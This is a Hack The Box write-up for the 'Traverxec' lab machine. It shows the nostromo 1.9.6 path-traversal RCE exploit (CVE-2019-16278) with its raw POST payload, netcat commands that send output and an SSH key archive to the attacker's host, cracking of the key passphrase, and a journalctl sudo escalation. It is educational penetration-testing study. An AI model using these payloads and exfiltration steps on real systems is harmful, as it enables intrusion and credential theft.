

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/traverxec-easy
---

# ✅ Traverxec (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** nostromo version out of date and vulnerable to RCE

**System Vulnerable:** 10.10.10.165

**Vulnerability Explanation:** The application nostromo which is running and it's vulnerable to RCE by public exploit.

**Privilege Escalation Vulnerability:** journalctl (GTFOBins)

**Vulnerability Fix:** Update to the latest and stable version and use strong password with complexity.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.165 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-04 00:20 EST
Nmap scan report for 10.10.10.165
Host is up (0.044s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Enumeration

### Port 80 nostromo 1.9.6

.png>)

By information leak on HTTP header, we found that application is running with <mark style="color:red;">**nostromo 1.9.6.**</mark>

Let search for public exploit for nostromo version 1.9.6

```
└─$ searchsploit nostromo 1.9.6
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
nostromo 1.9.6 - Remote Code Execution                                                                                                                      | multiple/remote/47837.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
```

Let copy and run the script to confirms it's vulnerable to remote code execution

```
└─$ python 47837.py 10.10.10.165 80 'id'


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    


HTTP/1.1 200 OK
Date: Sat, 04 Dec 2021 05:33:22 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## #1 Exploit (Automate)

Let start our netcat listener on port 4444 to confirms we can inject reverse shell.

```
nc -lvp 4444
```

```
└─$ python 47837.py 10.10.10.165 80 'id | nc 10.10.14.7 4444' 


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    


^CHTTP/1.1 200 OK
Date: Sat, 04 Dec 2021 05:33:51 GMT
Server: nostromo 1.9.6
Connection: close

```

.png>)

Confirms that we can perform reverse shell. Let start our netcat listener on port 4444 again.

```
nc -lvp 4444
```

.png>)

.png>)

### #2 Exploit (Manual)

Reviewing the script source code

```
def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)
```

Let send the request through burp and change request method to POST

.png>)

.png>)

Confirms it's working. Let inject netcat reverse shell and start netcat listener on port 4444.

.png>)

.png>)

## Privilege Escalation

### Shell as David

```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

We can see that, there is a /home directory. We can assess by /\~user-name

.png>)

Assess through webpage but doesn't work.

.png>)

Go through directory on shell,

```
www-data@traverxec:/var/nostromo/conf$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
```

Again, visit the file via webpage it protected by basic authentication.

.png>)

There is a zip file

```
www-data@traverxec:/home/david/public_www$ cd protected-file-area/
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```

Let transfer that zip file to our machine.

```
└─$ nc -lvp 4444 > backup-ssh.tgz

www-data@traverxec:/home/david/public_www/protected-file-area$ cat backup-ssh-identity-files.tgz | nc 10.10.14.7 5555
```

Let extract the zip file

```
└─$ tar xzfv backup-ssh.tgz 
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

└─$ chmod 600 id_rsa
```

Crack id\_rsa to get passphrase

```
└─$ locate ssh2john                                                                                                                                                                     130 ⨯
/usr/share/john/ssh2john.py

└─$ /usr/share/john/ssh2john.py id_rsa > hash.txt

└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:10 DONE (2021-12-04 02:28) 0.09149g/s 1312Kp/s 1312Kc/s 1312KC/s *7¡Vamos!
Session completed
```

SSH to machine with user david

.png>)

### Shell as root

On home direct of user david, there is a folder call bin

```
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ ls -l
total 8
-r-------- 1 david david 802 Oct 25  2019 server-stats.head
-rwx------ 1 david david 363 Oct 25  2019 server-stats.sh
```

Executed **server-stats.sh**

```
// Some codedavid@traverxec:~/bin$ ./server-stats.sh
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""' 

Load:  02:31:19 up  2:14,  1 user,  load average: 0.00, 0.00, 0.00
 
Open nhttpd sockets: 1
Files in the docroot: 117
 
Last 5 journal log lines:
-- Logs begin at Sat 2021-12-04 00:16:48 EST, end at Sat 2021-12-04 02:31:19 EST. --
Dec 04 01:16:11 traverxec sudo[941]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/0 ruser=www-data rhost=  user=www-data
Dec 04 01:16:12 traverxec sudo[941]: pam_unix(sudo:auth): conversation failed
Dec 04 01:16:12 traverxec sudo[941]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Dec 04 01:16:12 traverxec sudo[941]: www-data : command not allowed ; TTY=pts/0 ; PWD=/tmp ; USER=root ; COMMAND=list
Dec 04 01:16:12 traverxec crontab[1002]: (www-data) LIST (www-data)
```

View the file **server-stats.sh**

```
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Interesting part is the last command run with sudo

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Checking on [gtfobin.github.io](https://gtfobins.github.io/gtfobins/journalctl/),&#x20;

### journalctl

.png>)

.png>)
